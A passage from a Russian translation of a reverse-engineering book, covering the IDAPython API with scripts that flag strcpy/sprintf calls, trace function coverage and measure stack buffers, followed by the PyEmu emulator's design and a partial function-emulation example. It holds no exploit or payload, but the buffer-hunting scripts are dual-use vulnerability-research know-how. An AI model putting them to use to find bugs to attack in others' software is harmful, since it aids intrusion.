Двумя новыми опциями стали Python File и Python command, а также горячие клавиши к ним. Если нужно выполнить простую команду Python, можно нажать на Python command, после чего появится диалоговое окно, позволяющее вводить Python-команды. Результат выполнения этих команд можно увидеть в "Output window" IDA Pro. Пункт меню Python command используется для выполнения автономных скриптов IDAPython. Теперь, когда у вас установлен и работает IDAPython, давайте рассмотрим некоторые наиболее часто используемые функции поддерживаемые им.


11.2 Функции IDAPython

IDAPython полностью совместим с IDC. Это значит, что любой вызов функции, которую поддерживает IDC http://www.hex-rays.com/idapro/idadoc/162.htm[5], также можно использовать в IDAPython. Мы рассмотрим некоторые из функций, которые вы обычно будите использовать при написании скриптов IDAPython. Они предоставят прочную основу, для того чтобы начать разрабатывать собственные скрипты. Язык IDC поддерживает свыше 100 вызовов функций. Поэтому, в этой главе, дан далеко не исчерпывающий их список, но он поощрит вас исследовать его лучше самостоятельно.

11.2.1 Полезные функции

Ниже представлена пара полезных функций, которые пригодятся в большинстве ваших скриптах:

ScreenEA()
Получает адрес того, где в настоящий момент размещен курсок (мышки) на экране IDA. Это позволяет выбрать начальную точку, для запуска сценария.

GetInputFileMD5()
Возвращает MD5-хеш двоичного файла, загруженного в IDA. Это полезно для отслеживания изменений в загружаемых файлах.

11.2.2 Сегменты

В IDA двоичные файлы разбиваются на сегменты, каждый сегмент имеет определенный класс (CODE, DATA, BSS, STACK, CONST или XTRN). Следующие функции предоставляют возможность получить информацию о сегментах, которые содержатся в двоичном файле.

FirstSeg()
Возвращает начальный адрес первого сегмента в двоичном файле.

NextSeg()
Возвращает начальный адрес следующего сегмента в двоичном файле или BADADDR, если сегментов больше не нет.

SegByName( string SegmentName )
Возвращает начальный адрес сегмента основанного на имени сегмента. Например, вызывая ее с .text (в качестве параметра) будет возвращен начальный адрес сегмента «кода» для двоичного файла.

SegEnd( long Address )
Возвращает конец сегмента, основанного на адресе, содержащемся в пределах данного сегмента.

SegStart( long Address )
Возвращает начало сегмента, основанного на адресе, содержащемся в пределах данного сегмента.

SegName( long Address )
Возвращает имя сегмента, основанного на любом адресе в пределах данного сегмента.

Segments()
Возвращает список начальных адресов для всех сегментов в конкретном двоичном файле.

11.2.3 Функции

Перебор всех функций и определение их границ, в двоичном файле, являются теми задачами, с которыми вы будете часто сталкиваться при написании скриптов. Следующие процедуры будут полезны при работе с функциями в нутрии исследуемого двоичного файла.

Functions( long StartAddress, long EndAddress )
Возвращает список всех функций, начальные адреса которых содержатся между StartAddress и EndAddress.

LocByName( string FunctionName )
Возвращает адрес функции, основываясь на ее имени.

GetFuncOffset( long Address )
Преобразует адрес, в пределах функции, в строку, которая показывает имя функции и смещение внутри функции.

GetFunctionName( long Address )
Возвращает имя функции, основываясь на преданном адресе, который ей принадлежит.

11.2.4 Перекрестные ссылки

Поиск кода и данных по перекрестным ссылкам, внутри двоичного файла, чрезвычайно полезная вещь, при определении потока данных и возможных путей исполнения кода к интересным частям исследуемого файла. IDAPython имеет множество функций, используемых для определения различных перекрестных ссылок.

CodeRefsTo( long Address, bool Flow )
Возвращает список ссылок кода на данный адрес. Логический флаг Flow говорит IDAPython следовать или не следовать нормальному потоку кода при определении перекрестных ссылок.

CodeRefsFrom( long Address, bool Flow )
Возвращает список ссылок кода из данного адреса.

DataRefsTo( long Address )
Возвращает список ссылок данных на данный адрес. Полезно для слежения за использованием глобальной переменной в исследуемом файле.

DataRefsFrom( long Address )
Возвращает список ссылок данных из данного адреса. 

11.2.5 Debugger Hooks

Одной очень хорошей фичей, которую поддерживает IDAPython, является возможность определять debugger hook в IDA и устанавливать обработчики различных отладочных событий, которые могут возникнуть. Хотя IDA обычно не используется для отладки, есть моменты, когда просто легче запустить встроенный отладчик IDA, чем переключаться на другой инструмент. Мы будем использовать один из этих debugger hooks позже при создании простого инструмента покрытия кода (code coverage tool). Чтобы установить debugger hook, вначале нужно определить основной класс debugger hook, а затем определить различные обработчики событий в этом классе. Мы будем использовать следующий класс в качестве примера:

Код:
%% class DbgHook(DBG_Hooks):
%% # Event handler for when the process starts
%% # Обработчик события, срабатывающий при запуске процесса
%% def dbg_process_start(self, pid, tid, ea, name, base, size):
%% return

%% # Event handler for process exit
%% # Обработчик события, срабатывающий при завершении процесса 
%% def dbg_process_exit(self, pid, tid, ea, code):
%% return

%% # Event handler for when a shared library gets loaded
%% # Обработчик события, срабатывающий при загрузке библиотеки
%% def dbg_library_load(self, pid, tid, ea, name, base, size):
%% return

%% # Breakpoint handler
%% # Обработчик срабатывающий при срабатывании точки останова
%% def dbg_bpt(self, tid, ea):
%% return
Этот класс содержит некоторые общие обработчики отладочных событий, которые можно использовать при создании простых отладочных скриптов в IDA. Чтобы установить debugger hook используйте следующий код:

Код:
%% debugger = DbgHook()
%% debugger.hook()
Теперь запустите отладчик и ваш hook будет перехватывать все отладочные события, что позволяет иметь очень высокий уровень контроля над отладчиком IDA. Вот несколько вспомогательных функций, которые вы можете использовать во время выполнения отладки:

%% AddBpt( long Address )
Устанавливает программный брейкпойнт на указанный адрес.

%% GetBptQty()
Возвращает количество брейкпойнтов установленных в настоящий момент. 

%% GetRegValue( string Register )
Получает значение регистра основываясь на его имени.

%% SetRegValue( long Value, string Register )
Устанавливает значение для указанного регистра.


11.3 Example Scripts

Теперь давайте создадим несколько простых скриптов, которые могут помочь в некоторых общих задачах, с которыми вы столкнетесь при реверсинге двоичных файлов. Мы создадим скрипты для: поиска перекрестных ссылок, на опасные вызовы функций; мониторинга вызываемых функций с использованием IDA debugger hook и вычисления размера переменных стека для всех функций в двоичном файле.

11.3.1 Поиск перекрестных ссылок на опасные функции

Существует ряд опасных функций, например, функции по работе со строками (strcpy, sprintf) или функции по работе с памятью (memcpy), при не правильном использовании которых могут возникать различные проблемы. При исследовании двоичных файлов нам нужно уметь легко находить подобные функции, поскольку они могут представлять не малый интерес, например, для исследователя багов. Давайте создадим простой скрип, чтобы отследить эти функции и определить места, откуда они вызываются. Помимо этого установим красный цвет фона для каждой вызываемой функции, что бы мы могли легко видеть эти вызовы при просмотре графиков сгенерированных IDA. Откройте новый Python файл, назовите его cross\_ref.py и введите следующий код:

cross\_ref.py
Код:
%% from idaapi import *

%% danger_funcs = ["strcpy","sprintf","strncpy"]

%% for func in danger_funcs:
%%     (#1): addr = LocByName( func )

%%     if addr != BADADDR:

%%         # Grab the cross-references to this address

%%         (#2): cross_refs = CodeRefsTo( addr, 0 )

%%         print "Cross References to %s" % func
%%         print "-------------------------------"
%%         for ref in cross_refs:

%%             print "%08x" % ref
            
%%             # Color the call RED
%%             (#3): SetColor( ref, CIC_ITEM, 0x0000ff)
Мы начинаем с получения адреса опасной функции (\#1), затем проверяем его, чтобы убедиться, что это допустимый адрес в пределах двоичного файла. Затем получаем все перекрестные ссылки на код, который делает вызов опасной функции (\#2), и проходим в цикле по их списку, распечатывая их адреса и раскрашивая вызываемые инструкции (\#3), так чтобы мы могли видеть их на графиках IDA. Попробуйте использовать скрипт на файле war-ftpd.exe в качестве примера. Когда запустите скрипт, вы должны увидеть вывод, подобный тому, как показано в Листинге 11-1.

Листинг 11-1: Вывод после использования cross\_ref.py
Код:
%% Cross References to sprintf
%% -------------------------------
%% 004043df
%% 00404408
%% 004044f9
%% 00404810
%% 00404851
%% 00404896
%% 004052cc
%% 0040560d
%% 0040565e
%% 004057bd
%% 004058d7
%% ...
Все перечисленные адреса, являются местоположениями вызовов функции sprintf и если вы посмотрите на эти адреса в графике IDA, вы должны увидеть, что инструкции раскрашены, как показано на Рис. 11-3.


Рис. 11-3: Вызов sprintf окращеный с помощью скрипта cross\_ref.py

11.3.2 Function Code Coverage

При выполнении динамического анализа, довольно полезно понимать какой код выполняется во время исполнения исследуемого файла. Покрытие кода (code coverage) является полезным показателем, который помогает понять, как работает программа. Мы будем использовать IDAPython для перебора всех функций, в исследуемом двоичном файле, с последующей установкой точек останова на начало каждого адреса. Затем мы запустим отладчик IDA и используем debugger hook для вывода уведомления, во время каждого срабатывания точек останова. Откройте новый Python файл, назовите его func\_coverage.py и введите следующий код: 

func\_coverage.py
Код:
%% from idaapi import *

%% class FuncCoverage(DBG_Hooks):
    
%%     # Our breakpoint handler
%%     def dbg_bpt(self, tid, ea):
%%         print "[*] Hit: 0x%08x" % ea
%%         return

%% # Add our function coverage debugger hook
%% (#1):  debugger = FuncCoverage()
%% debugger.hook()

%% current_addr = ScreenEA()

%% # Find all functions and add breakpoints
%% (#2):  for function in Functions(SegStart( current_addr ), SegEnd( current_addr )):
%%     (#3):  AddBpt( function )
%%     SetBptAttr( function, BPTATTR_FLAGS, 0x0 )

%% (#4):  num_breakpoints = GetBptQty()

%% print "[*] Set %d breakpoints." % num_breakpoints
Вначале мы устанавливаем наш debugger hook (\#1), так чтобы он вызывался во время каждого отладочного события. Затем перебираем все адреса функций (\#2) и устанавливаем точки останова на каждый адрес (\#3). Вызов SetBptAttr устанавливает флаг (BPTATTR\_FLAGS), чтобы отладчик не останавливался при каждом срабатывании брейкпойнтов; если его не установить, то придется в ручную возобновлять отладку, после каждого срабатывания точек останова. Затем мы распечатываем общее количество установленных брейкпойнтов (\#4). Обработчик брейкпойнтов распечатывает адреса каждой сработавшей точки останова, используя для этого переменную ea, которая на самом деле является ссылкой на регистр EIP, во время срабатывания брейкпойнта. Теперь запустите отладчик (горячая клавиша F9). После чего вы должны увидеть вывод, отображающий функции на которых сработал брейкпойнт. Это должно дать вам очень высокоуровневое представление того какие функции вызываются и в каком порядке они выполняются.

11.3.3 Вычисление размера стека

Иногда при оценке двоичного файла на возможные уязвимости, важно знать размер стека, в определенных вызовах функций. Это может рассказать вам, есть ли просто указатели, передающиеся в функцию, или еще есть буферы, выделенные в стеке, которые могут представлять интерес, если вы можете контролировать количество передаваемых данных в эти буферы (что может привести к общей уязвимости переполнения буфера). Давайте напишем код для перебора всех функции, который покажет все функции с выделенными в стеке буферами, которые могут представлять нас интерес. Вы можете объединить этот скрипт, с нашим предыдущим примером, для отслеживания вызова всех интересных функций, во время выполнения отладки. Откройте новый Python файл, назовите его stack\_calc.py и введите следующий код:

stack\_calc.py
Код:
%% from idaapi import *

%% (#1): var_size_threshold = 16
%% current_address = ScreenEA()

%% (#2): for function in Functions(SegStart(current_address), SegEnd(current_address)):
%%     (#3): stack_frame = GetFrame( function )
    
%%     frame_counter = 0
%%     prev_count = -1

%%     (#4): frame_size = GetStrucSize( stack_frame )

%%     while frame_counter < frame_size:

%%         (#5): stack_var = GetMemberNames( stack_frame, frame_counter )

%%         if stack_var != "":

%%             if prev_count != -1:

%%                 (#6): distance = frame_counter - prev_distance

%%                 if distance >= var_size_threshold:
%%                     print "[*] Function: %s -> Stack Variable: %s (%d bytes)" % ( GetFunctionName(function), prev_member, distance )

%%             else:
%%                 prev_count = frame_counter
%%                 prev_member = stack_var

%%                 (#7): try:
%%                     frame_counter = frame_counter + GetMemberSize(stack_frame,
%% frame_counter)

%%                 except:
%%                     frame_counter += 1
%%         else:
%%             frame_counter += 1
Вначале устанавливаем размер порога, который определяет, насколько большой должна быть переменная стека прежде, чем мы будем считать ее буфером (\#1); 16 байт приемлемый размер, но не стесняйтесь экспериментировать с различными размерами. Затем начинаем перебирать все функции (\#2), получая объект кадра стека (stack frame) для каждой функции (\#3). Далее используем функцию GetStrucSize (\#4), для определения размера кадра стека в байтах. Затем начинаем перебирать стековый фрейм (stack frame) байт за байтом, пытаясь определить, присутствует ли стековая переменная в каждом байте смещения (\#5). Если она присутствует, вычитаем текущее байтовое смещение из предыдущей переменной стека (\#6). Основываясь на расстоянии между этими двумя переменными, можно определить размер переменной. Если расстоянием не достаточно большое, пытаемся определить размер текущей переменной стека (\#7) и увеличиваем счетчик на размер текущей переменной. Если не можем определить размер переменной, то просто увеличиваем счетчик на один байт и продолжаем цикл. После применения этого скрипта к двоичному файлу, вы должны видеть вывод (если есть несколько буферов выделенных в стеке), как показано ниже в Листинге 11-2.

Листинг 11-2: Вывод скрипта stack\_calc.py показывает выделенные в стеке буферы и их размеры
Код:
%% [*] Function: sub_1245 -> Stack Variable: var_C(1024 bytes)[*] Function: sub_149c -> Stack Variable: Mdl (24 bytes)[*] Function: sub_a9aa -> Stack Variable: var_14 (36 bytes)
Теперь вы имеете основу, которая позволит вам использовать IDAPython. Помимо этого у вас есть некоторые полезные скрипты, которые вы можете легко расширять, объединять или улучшать. Пара минут на написание скрипта в IDAPython может спасти вас от часов ручного реверсинга, а время, как известно, является самым ценным активом. Теперь давайте взглянем на PyEmu, x86 эмулятор, основанный на Python, который является прекрасным примером работы IDAPython в действии.

\chapter{PyEmu}

PyEmu был за релизен на конференции BlackHat [1] в 2007 Коди Пирсом (Cody Pierce), одним из талантливых мемберов TippingPoint DVLabs. PyEmu является чистым Python эмулятором AI32, который позволяет разработчику использовать Python для эмуляции процессора. Использование эмулятора может быть очень полезным, при реверсе вредоносного программного обеспечения, когда вы не хотите запускать вредоносный код на реальной системе. Его использование также будет полезным и в ряде других задач реверс инженера. PyEmu имеет три метода включающих возможность эмуляции: IDAPyEmu, PyDbgPyEmu и PEPyEmu. Класс IDAPyEmu позволяет запускать эмуляцию задач внутри IDA Pro, используя IDAPython (см. Глава 11). Класс PyDbgPyEmu позволяет использовать эмулятор во время динамического анализа, что дает возможность использовать реальные значения памяти и регистров в нутрии скриптов. Класс PEPyEmu является отдельной библиотекой статического анализа, которая не требует наличия IDA Pro для дизассемблирования. В этой главе мы рассмотрим использование IDAPyEmu и PEPyEmu, а исследование PyDbgPyEmu оставим читателю в качестве упражнения. Давайте установим PyEmu, а затем перейдем на рассмотрение базовой архитектуры эмулятора.


12.1 Установка PyEmu

Установка PyEmu довольна простая; просто загрузите zip-архив по следующей ссылке:
http://www.nostarch.com/ghpython.htm
Как только загрузите файл – распакуйте его в "C:\\PyEmu". Каждый раз, создавая скрипт PyEmu, нужно указывать путь к коду PyEmu. Делается это с помощью следующих двух Python строк:

Код:
%% sys.path.append("C:\PyEmu\")
%% sys.path.append("C:\PyEmu\lib")
Вот и все! Теперь давайте углубимся в архитектуру системы PyEmu, а затем перейдем к созданию простых скриптов.


12.2 Обзор PyEmu

PyEmu разделяется на три основные системы: PyCPU, PyMemory и PyEmu. По большей части вы будете взаимодействовать только с родительским классом PyEmu, который затем взаимодействует с классами PyCPU и PyMemory, чтобы выполнить все низкоуровневые задачи эмуляции. Когда вы просите PyEmu выполнить инструкции, он вызывает PyCPU для их фактического исполнения. Затем PyCPU обращается (calls back) к PyEmu, чтобы запросить необходимую память от PyMemory, которая требуется для выполнения поставленной задачи. Когда инструкция закончила выполнение и нужно вернуть память – происходит обратная операция.

Мы кратко рассмотрим каждую из подсистем и их различные методы для лучшего понимания того, как PyEmu делает свою грязную работу. 

12.2.1 PyCPU

Класс PyCPU это сердце и душа PyEmu, поскольку ведет себя так же, как физический процессор на компьютере который вы сейчас используете. Его работа заключается в выполнении инструкций во время эмуляции. Когда PyCPU нужно выполнить инструкцию, он получает инструкцию из текущего указателя инструкций (который определяется либо статически от IDA Pro/PEPyEmu, либо динамически от PyDbg). Получив инструкцию, он внутренне передает ее в pydasm, который декодирует их в опкоды и операнды. Возможность самостоятельного декодирования инструкций позволяет PyEmu спокойно работать в различных средах, которые он поддерживает.

В PyEmu для каждой инструкции программы есть соответствующая инструкция эмулятора. Например, если бы в PyCPU была передана инструкция CMP EAX,1, он бы вызвал функцию CMP() из класса PyCPU, после чего, получив необходимые значения, установил бы соответствующие флаги процессора, чтобы указать прошло ли сравнение успешно (прим. пер. т.е. EAX = = 1) или нет. Не стесняйтесь исследовать файл PyCPU.py, который содержит все поддерживаемые PyEmu инструкции. Коди Пирс пошел на многое, чтобы гарантировать, что код эмулятора читабелен и понятен; исследование PyCPU является отличным способом понять, как задачи процессора выполняются на низком уровне.

12.2.2 PyMemory

Класс PyMemory является средством для класса PyCPU позволяющего загружать и сохранять необходимые данные во время выполнения инструкций. Он также отвечает за отображение секций кода и данных (выполняемой программы) таким образом, чтобы к ним можно было обращаться из эмулятора. Теперь, когда у вас есть некоторые знания о двух важных подсистемах PyEmu, давайте посмотрим на основной класс PyEmu и некоторые из поддерживаемых им методов.

12.2.3 PyEmu

Родительский класс PyEmu является основной движущей силой для всего процесса эмуляции. PyEmu был разработан для того, чтобы быть очень легким и гибким, и чтобы можно было быстро разрабатывать мощные скрипты без необходимости управления какими-либо низкоуровневыми процедурами. Это достигается с помощью воздействия вспомогательных функций, которые позволяют: контролировать выполнение потока, контролировать изменения значений регистров, изменять содержимое памяти и многое другое. Давайте углубимся в рассмотрение некоторых из этих вспомогательных функций до разработки нашего первого скрипта для PyEmu.

12.2.4 Execution

В PyEmu выполнение контролируется с помощью одной функции, с соответствующим название execute(). Она имеет следующий прототип:

Код:
%% execute( steps=1, start=0x0, end=0x0 )
Метод execute() принимает три необязательных параметра и если аргументы не будут подставлены, то он начнет выполнение с текущего адреса PyEmu. Им может быть: либо значение из EIP, во время динамического выполнения в PyDbg; либо точкой входа исполняемой программы, в случае с PEPyEmu; либо эффективным адресом курсора, установленным вами в нутрии IDA Pro. Параметр steps определяет, сколько инструкций должен выполнить PyEmu, прежде чем остановиться. При использовании параметра start, вы устанавливаете начало выполнения инструкций. Он также может быть использован с параметром steps или параметром end, чтобы определить, когда PyEmu должен остановить выполнение.

Код:
%% 12.2.5 Memory and Register Modifiers
Чрезвычайно важно иметь возможность устанавливать или получать значения регистров и памяти во время выполнения скриптов эмуляции. PyEmu разбивает модифицирующиеся данные на четыре отдельных категории: memory, stack variables, stack arguments и registers. Чтобы установить или получить значение памяти (memory) используйте функции set\_memory() и get\_memory(), которые имеют следующие прототипы: 

Код:
%% get_memory( address, size )
%% set_memory( address, value, size=0 )
Функция get\_memory() принимает два параметра: параметр address, говорит PyEmu какой адрес памяти запросить, а параметр size определяет размер полученных данных. Функция set\_memory() принимает address памяти для записи, параметр value, определяет значение, которое будет записано (по указанному адресу), а необязательный параметр size говорит PyEmu размер записываемых данных. 

Две стековых категории (stack variables, stack arguments) ведут себя аналогично и используются для изменения функций аргументов и локальных переменных в кадре стека. Они имеют следующие прототипы:

Код:
%% set_stack_argument( offset, value, name="" )
%% get_stack_argument( offset=0x0, name="" )
%% set_stack_variable( offset, value, name="" )
%% get_stack_variable( offset=0x0, name="" )
Для функции set\_stack\_argument(), в параметре offset указывается смещение от переменной ESP, а в параметр value используется для установки аргумента стека (stack argument). При желании для аргумента стека можно указать имя в параметре name. При использовании функции get\_stack\_argument(), для получения значения аргумента стека, можно использовать либо параметр offset, либо параметр name, если ему до этого было установлено пользовательское имя. Пример такого использования показан ниже:

Код:
%% set_stack_argument( 0x8, 0x12345678, name="arg_0" )
%% get_stack_argument( 0x8 )
%% get_stack_argument( "arg_0" )
Функции set\_stack\_variable() и get\_stack\_variable() работают тем же самым образом, за исключением того, что для установки значения локальным переменным в области функций, в параметре offset, указывается смещение относительно регистра EBP (при наличии).

12.2.6 Handlers

Обработчики обеспечивают очень гибкий и мощный механизм обратного вызова (callback), позволяющего реверсеру наблюдать, модифицировать или изменять определенные моменты исполнения. PyEmu предоставляет восемь основных обработчиков: register handlers, library handlers, exception handlers, instruction handlers, opcode handlers, memory handlers, high-level memory handlers и program counter handler. Давайте быстро рассмотрим каждый из них, а затем перейдем к реальным случаям использования.

12.2.6.1 Register Handlers

Register handlers используются для того, чтобы наблюдать за изменениями в определенном регистре. Каждый раз, когда выбранный регистр изменится, будет вызван ваш обработчик. Для установки register handler используется следующий прототип:

Код:
%% set_register_handler( register, register_handler_function )
%% set_register_handler( "eax ", eax_register_handler )
После того как вы установили обработчик, нужно определить функцию обработчик, используя следующий прототип:

Код:
%% def register_handler_function( emu, register, value, type ):
Когда вызывается обработчик процедуры, в первом параметре emu передается текущий экземпляр PyEmu, в следующем параметре register и последующем value, передается регистр, за которым вы наблюдаете, и его значение соответственно. В параметре type передается строка, указывающая на чтение (read) или запись (write) в регистр (прим. пре. т.е. дает понять, «пишут» в регистр или «читают» из него). Это невероятно мощный способ, позволяющий наблюдать за изменениями регистра в течении долгого времени, и помимо этого, позволяет изменять регистры в нутрии обработчика процедуры, если потребуется.

12.2.6.2 Library Handlers

Library handlers позволяют PyEmu перехватывать любые функций, во внешних модулях (libraries), до их непосредственного вызова. Это позволяет эмулятору изменять как вызовы функций, так и возвращаемый ими результат. Для установки library handler, используется следующий прототип:

Код:
%% set_library_handler( function, library_handler_function )
%% set_library_handler( "CreateProcessA", create_process_handler )
После того как library handler установлен, нужно определить функцию обработчик, используя следующий прототип:

Код:
%% def library_handler_function( emu, library, address ):
В первом параметре передается текущий экземпляр PyEmu. В параметре library передается имя вызванной функции. В параметре address передается адрес в памяти, где располагается импортируемая функция. 

12.2.6.3 Exception Handlers

Вы должны быть хорошо знакомы с обработчиками исключений (exception handlers) из Главы 2. Они работают похожим образом и в эмуляторе PyEmu; всякий раз, при срабатывании исключения, будет вызван установленный обработчик исключений. В настоящий момент, PyEmu поддерживает только general protection fault (прим. пер. не знаю, как лучше перевести), что позволяет обрабатывать любой неправильный доступ к памяти в нутрии эмулятора. Для установки обработчика исключений, используется следующий прототип: 

Код:
%% set_exception_handler( "GP", gp_exception_handler )
Процедура обработчика, для обработки любых поступивших исключений, должна следовать следующему прототипу:

Код:
%% def gp_exception_handler( emu, exception, address ):
Как обычно, в первый параметр передается текущий экземпляр PyEmu, в параметр exeption передается код сгенерированного исключения, а в параметр address передается адрес, где произошло исключение.

12.2.6.4 Instruction Handlers

Instruction handlers являются очень мощным средством для перехвата определенных инструкций после того как те были выполнены. Это может пригодиться в самых разных случаях. Например, в своей статье, на конференции BlackHat, Коди Пирс говорит, что вы можете установить обработчик для инструкции CMP, чтобы следить за выбором ветвлений, производимым в зависимости от результата выполнения инструкции CMP. Для установки instruction handler, используется следующий прототип:

Код:
%% set_instruction_handler( instruction, instruction_handler )
%% set_instruction_handler( "cmp", cmp_instruction_handler )
Функция обработчик должна соблюдать следующий прототип:

Код:
%% def cmp_instruction_handler( emu, instruction, op1, op2, op3 ):
В первом параметре передается экземпляр PyEmu, в параметре instruction передается выполненная инструкция, а в оставшихся трех параметрах передаются значения всех возможных операндов, которые были использованы. 

12.2.6.5 Opcode Handlers

Opcode handlers очень похожи на instruction handlers в том, что они вызываются при выполнении определенного опкода (opcode). Это дает вам более высокий уровень контроля, поскольку, каждая инструкция может иметь несколько опкодов, в зависимости от операндов, которые она использует. Например, инструкции “PUSH EAX” принадлежит опкод 0x50, в то время как инструкции “PUSH 0x70” принадлежит опкод 0x6A, а полный опкод операции будет 0x6A70. Для установки opcode handler, используется следующий прототип:

Код:
%% set_opcode_handler( opcode, opcode_handler )
%% set_opcode_handler( 0x50, my_push_eax_handler )
%% set_opcode_handler( 0x6A70, my_push_70_handler )
В первый параметр opcode нужно передать код операции, который нужно перехватить, а во второй параметр opcode\_handler передать функцию обработчик. Вы не ограничены однобайтовыми опкодами: если опкод состоит из нескольких байт, можете передать весь набор, как показано во втором примере. 

Функция обработчик должна соблюдать следующий прототип:

Код:
%% def opcode_handler( emu, opcode, op1, op2, op3 ):
В первом параметре передается текущий экземпляр PyEmu, в параметре opcode передается выполненный опкод, а в оставшихся трех параметрах передаются значения всех возможных операндов, которые были использованы. 

12.2.6.6 Memory Handlers

Memory handlers могут использоваться, чтобы отследить доступ к определенным данным по конкретному адресу в памяти. Это может быть очень важно при отслеживании глобальной переменной или интересной части данных в буфере, и, наблюдая за тем, как это значение меняется с течением времени. Для установки memory handler, используется следующий прототип:

Код:
%% set_memory_handler( address, memory_handler )
%% set_memory_handler( 0x12345678, my_memory_handler )
В первый параметр address нужно передать адрес в памяти, за которой вы хотите наблюдать, а во второй параметр memory\_handler передать функцию обработчик.

Функция обработчик должна соблюдать следующий прототип:

Код:
%% def memory_handler( emu, address, value, size, type ):
В первом параметре передается текущий экземпляр PyEmu, в параметре address передается адрес в памяти, по которому происходит доступ, в параметре value передаются данные, которые будут считаны или записаны, в параметре size передается размер данных, которые будут считаны или записаны, а в параметре type передается строковое значение, которое указывает на чтение или запись.

12.2.6.7 High-Level Memory Handlers

High-level memory handlers позволяют перехватить доступ к памяти вне определенного адреса. При установке high-level memory handler, можно контролировать все операции чтения/записи к любой памяти, стеку или куче, тем самым позволяя глобально контролировать доступ к памяти всех типов. Для установки различных high-level memory handlers, используются следующие прототипы:

Код:
%% set_memory_write_handler( memory_write_handler )
%% set_memory_read_handler( memory_read_handler )
%% set_memory_access_handler( memory_access_handler )
%% set_stack_write_handler( stack_write_handler )
%% set_stack_read_handler( stack_read_handler )
%% set_stack_access_handler( stack_access_handler )
%% set_heap_write_handler( heap_write_handler )
%% set_heap_read_handler( heap_read_handler )
%% set_heap_access_handler( heap_access_handler )
Для всех этих обработчиков нужно просто передать функцию обработчик, которая будет вызываться в момент наступления одного из указанных событий доступа к памяти.

Функция обработчик должна соблюдать следующий из прототипов:

Код:
%% def memory_write_handler( emu, address ):
%% def memory_read_handler( emu, address ):
%% def memory_access_handler( emu, address, type ):
Функции memory\_write\_handler и memore\_read\_handler просто принимают текущий экземпляр PyEmu и адрес, где происходит чтение или запись. Обработчик доступа (access handler) имеет немного отличающийся прототип, потому что получает третий параметр, который указывает на тип доступа к памяти. Параметр type это просто строка, указывающая на чтение (read) или запись (write).

12.2.6.8 Program Counter Handler

Program counter handler позволяет вызвать обработчик, когда выполнение достигает определенного адреса в эмуляторе. Так же, как и другие обработчики, он позволяет перехватывать определенные полезные места во время выполнения эмулятора. Для установки program counter handler, используется следующий прототип:

Код:
%% set_pc_handler( address, pc_handler )
%% set_pc_handler( 0x12345678, 12345678_pc_handler )
В параметре address нужно передать адрес места, где должна быть вызвана функция обратного вызова (callback), а в параметре pc\_handler передать функцию, которая будет вызвана, в момент, когда переданный адрес достигает эмулятор, во время своего выполнения.

Функция обработчик должна соблюдать следующий прототип:

Код:
%% def pc_handler( emu, address ):
Как обычно, в первом параметре передается текущий экземпляр PyEmu, а в параметр address передается адрес, где произошел перехват.

Теперь, когда мы рассмотрели основы использования эмулятора PyEmu и некоторые его методы, давайте перейдем к использованию эмулятора в боевых условиях реверс-инженера. Для начала мы будем использовать IDAPyEmu, чтобы эмулировать простой вызов функции в двоичном файле, который мы загрузим в IDA Pro. Во втором упражнении мы будем использовать PEPyEmu для того, чтобы распаковать двоичный файл, который был упакован с помощью UPX.


12.3 IDAPyEmu

В нашем первом примере нужно загрузить двоичный файл в IDA Pro и используя PyEmu эмулировать вызов функции. Двоичный файл является простым приложением на C++, которое было названо addnum.exe. Оно доступно, вместе с остальными файлами для этой книги, по следующей ссылке:
http://www.nostarch.com/ghpython.htm
Этот двоичный файл просто принимает два числа в качестве параметров командной строки, затем складывает их между собой и выводит результат сложения на экран. Давайте быстро просмотрим исходный код, прежде чем смотреть на его дизассемблированное представление.

addnum.cpp
Код:
%% #include <stdlib.h>
%% #include <stdio.h>
%% #include <windows.h>

%% int add_number( int num1, int num2 )
%% {
%%     int sum;
%%     sum = num1 + num2;
%%     return sum;
%% }

%% int main(int argc, char* argv[])
%% {
%%     int num1, num2;
%%     int return_value;
    
%%     if( argc < 2 )
%%     {
%%         printf("You need to enter two numbers to add.\n");
%%         printf("addnum.exe num1 num2\n");
%%         return 0;
%%     }

%%     (#1): num1 = atoi(argv[1]);
%%     num2 = atoi(argv[2]);
    
%%     (#2): return_value = add_number( num1, num2 );

%%     printf("Sum of %d + %d = %d",num1, num2, return_value );

%%     return 0;
%% }
Это простая программа принимает два аргумента командной строки, преобразует их в целые числа (\#1), а затем вызывает функцию add\_number (\#2), чтобы сложить их вместе. Мы будем использовать функцию add\_number в качестве нашей цели для эмуляции, потому что ее довольно просто понять и проверить результат. Это будет хорошей отправной точкой для изучения того, как эффективно использовать систему PyEmu.

Теперь, прежде чем погрузиться в код PyEmu, давайте посмотрим на дизассемблерное представление функции add\_number. В Листинге 12-1 показан ее ассемблерный код:

Listing 12-1: Assembly code for the add\_number function
Код:
%% var_4= dword ptr -4 	# sum variable
%% arg_0= dword ptr 8 	# int num1
%% arg_4= dword ptr 0Ch 	# int num2

%% push 	ebp
%% mov 	ebp, esp
%% push 	ecx
%% mov 	eax, [ebp+arg_0]
%% add 	eax, [ebp+arg_4]
%% mov 	[ebp+var_4], eax
%% mov 	eax, [ebp+var_4]
%% mov 	esp, ebp
%% pop 	ebp
%% retn
Мы видим, как исходный код C++ транслируется в ассемблерный код после того, как он был скомпилирован. Мы будем использовать PyEmu, чтобы установить две переменные стека arg\_0 и arg\_4 в любое целое число, которое мы выберем. Затем перехватим значение в регистре EAX, когда функция будет выполнять инструкцию RETN. Регистр EAX будет содержать сумм двух чисел, которые мы передали в функцию. Хотя это и упрощенный вызов функции, он предоставляет отличную отправную точку для последующих эмуляций более сложных функций и перехвата их возвращаемых значений.

12.3.1 Function Emulation

Первый шаг, при создании нового сценария PyEmu, убедиться в том, что path к PyEmu установлен правильно. Откройте новый Python-скрипт, назовите его addnum\_function\_call.py и введите следующий код.

addnum\_function\_call.py
Код:
%% import sys
%% sys.path.append("C:\\PyEmu")
%% sys.path.append("C:\\PyEmu\\lib")

%% from PyEmu import *
Теперь, когда path правильно установлен, мы можем начать писать скрипт. Сначала нам нужно сопоставить секции кода и данных с двоичным файлом, таким образом, чтобы эмулятор имел реальный код для выполнения. Поскольку нами используется IDAPython, мы будем использовать похожие функции (см. предыдущую главу по IDAPython) для загрузки секций двоичного файла в эмулятор. Давайте продолжим писать наш скрипт addnum\_function\_call.py:

addnum\_function\_call.py
Код:
%% ...
%% (#1): emu = IDAPyEmu()

%% # Load the binary's code segment
%% code_start = SegByName(".text")
%% code_end = SegEnd( code_start )

%% (#2): while code_start <= code_end:
%%     emu.set_memory( code_start, GetOriginalByte(code_start), size=1 )
%%     code_start += 1

%% print "[*] Finished loading code section into memory."

